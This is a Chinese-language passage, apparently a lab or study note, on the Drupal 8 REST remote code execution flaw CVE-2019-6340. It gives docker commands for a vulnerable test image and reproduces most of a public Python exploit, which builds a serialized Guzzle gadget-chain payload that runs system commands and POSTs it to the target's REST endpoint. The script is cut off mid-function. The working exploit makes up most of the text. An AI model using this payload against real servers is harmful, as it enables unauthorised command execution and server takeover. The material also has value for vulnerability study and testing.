 -   漏洞成因

该漏洞存在于 Drupal 核心 RESTful Web Services (REST) 模块中，该模块默认情况下是禁用的。当用户启用该模块时，攻击者可以利用 REST API 中的某些字段类型无法正确清理非格式源中的数据，通过精心构造的恶意请求，在服务器上执行任意代码。

-   漏洞影响

该漏洞允许攻击者在未经授权的情况下，在目标服务器上执行任意代码，从而获取服务器控制权，并进行各种恶意操作，

```bash
docker pull knqyf263/cve-2019-6340
docker run -d -p 18084:80 --name Drupal8  knqyf263/cve-2019-6340
```

exp:[https://github.com/zhzyker/exphub/blob/master/drupal/cve-2019-6340\_cmd.py](https://github.com/zhzyker/exphub/blob/master/drupal/cve-2019-6340_cmd.py)

```bash
import requests
import sys
import re

if len(sys.argv) != 2:
    print("+---------------------------------------------------------------+")
    print("+ DES: by zhzyker as https://github.com/zhzyker/exphub          +")
    print("+                    https://freeerror.org/d/488                +")
    print("+---------------------------------------------------------------+")
    print("+ USE: python3 <filename> <url>                                 +")
    print("+ EXP: python3 cve-2019-6340_cmd.py http://freeerror.org:8080   +")
    print("+ VER: Drupal < 8.6.10                                          +")
    print("+      Drupal < 8.5.12                                          +")
    print("+---------------------------------------------------------------+")
    sys.exit()

url = sys.argv[1]
cmd = "whoami"
dir = "/node/?_format=hal_json"
url_dir = url + dir
cmd_len = len(cmd)

payload = (
    '{\r\n  "link": [\r\n    {\r\n      "value": "link",\r\n      "options": "O:24:\\"GuzzleHttp\\\\Psr7\\\\FnStream\\":2:{s:33:\\"\\u0000GuzzleHttp\\\\Psr7\\\\FnStream\\u0000methods\\";a:1:{s:5:\\"close\\";a:2:{i:0;O:23:\\"GuzzleHttp\\\\HandlerStack\\":3:{s:32:\\"\\u0000GuzzleHttp\\\\HandlerStack\\u0000handler\\";s:%s:\\"%s\\";s:30:\\"\\u0000GuzzleHttp\\\\HandlerStack\\u0000stack\\";a:1:{i:0;a:1:{i:0;s:6:\\"system\\";}}s:31:\\"\\u0000GuzzleHttp\\\\HandlerStack\\u0000cached\\";b:0;}i:1;s:7:\\"resolve\\";}}s:9:\\"_fn_close\\";a:2:{i:0;r:4;i:1;s:7:\\"resolve\\";}}"\r\n    }\r\n  ],\r\n  "_links": {\r\n    "type": {\r\n      "href": "%s/rest/type/shortcut/default"\r\n    }\r\n  }\r\n}'
    % (cmd_len, cmd, url)
)
headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0",
    "Connection": "close",
    "Content-Type": "application/hal+json",
    "Accept": "*/*",
    "Cache-Control": "no-cache",
}
response = requests.request("POST", url_dir, data=payload, headers=headers)
if response.status_code == 403 and "u0027access" in response.text:
    print("[+] Find Drupal CVE-2019-6340 Vuln!\n")
else:
    print("[-] Not Drupal CVE-2019-6340 Vuln! Good Luck~\n")
    sys.exit()


def do_post(cmd):
    payload = (
```
